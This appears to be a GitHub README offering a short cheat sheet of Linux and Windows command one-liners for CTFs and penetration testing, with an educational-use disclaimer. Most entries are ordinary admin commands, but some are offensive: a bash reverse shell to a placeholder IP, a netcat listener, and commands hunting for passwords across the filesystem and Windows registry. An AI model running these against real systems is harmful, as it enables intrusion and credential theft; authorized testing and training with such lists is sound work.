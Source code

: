 # ⚙️ Awesome CMD One-Liners for Linux & Windows

Welcome to my curated collection of powerful one-liners used across CTFs, pentests, and day-to-day cybersecurity tasks. Whether you’re trying to pop a shell, enumerate a box, or just make your workflow smoother, these quick commands will save time and deliver results.

---

## ⚠️ Legal & Ethical Disclaimer

> This repository is **for educational purposes only**.  
> Use these commands only on systems you own or have **explicit permission** to test.  
> I am not responsible for any unauthorized use or damage caused by the misuse of these commands.

---

## 🐧 Linux One-Liners (11)

| Command | Description |
|--------|-------------|
| `find / -perm -4000 2>/dev/null` | 🔍 Find all SUID binaries — great for local privilege escalation |
| `nc -lvnp 4444` | 🦻 Start a listener on port 4444 using Netcat |
| `curl ifconfig.me` | 🌍 Get your public IP address via CLI |
| `grep -r "password" / 2>/dev/null` | 🔑 Hunt for password strings across the filesystem |
| `sudo -l` | 🧯 Check sudo privileges — useful for escalation |
| `ip a` | 📡 View all IP addresses and interfaces |
| `wget http://[IP]/file` | 📥 Download a file from a remote server (HTTP) |
| `scp user@host:/path/to/file .` | 📦 Securely copy a remote file to your system |
| `chmod +x script.sh && ./script.sh` | 🛠️ Make a script executable and run it |
| `echo 'bash -i >& /dev/tcp/IP/PORT 0>&1'` | 🐚 Quick reverse shell payload |
| `tar -cvf archive.tar folder/` | 📁 Archive a folder (useful for exfil or CTF) |

---

## 🪟 Windows One-Liners (4)

| Command | Description |
|--------|-------------|
| `whoami /priv` | 🔐 Display user privileges — great for privilege escalation checks |
| `netstat -ano` | 🌐 View active connections with associated PIDs |
| `type C:\Users\*\Desktop\*.txt` | 📂 Read all `.txt` files on user desktops (CTF classic move) |
| `reg query HKLM /f password /t REG_SZ /s` | 🕵️‍♂️ Search Windows registry for stored plaintext passwords |

---

## 📎 How to Use

- Clone this repo for quick reference
- Memorize or script your favorites
- Expand it with your own daily-use gems!

---

## 🤝 Contributions Welcome!

Have a killer one-liner? Open a pull request and let’s grow this arsenal together.

---

> 🧠 "One good command can save hours of hard work."
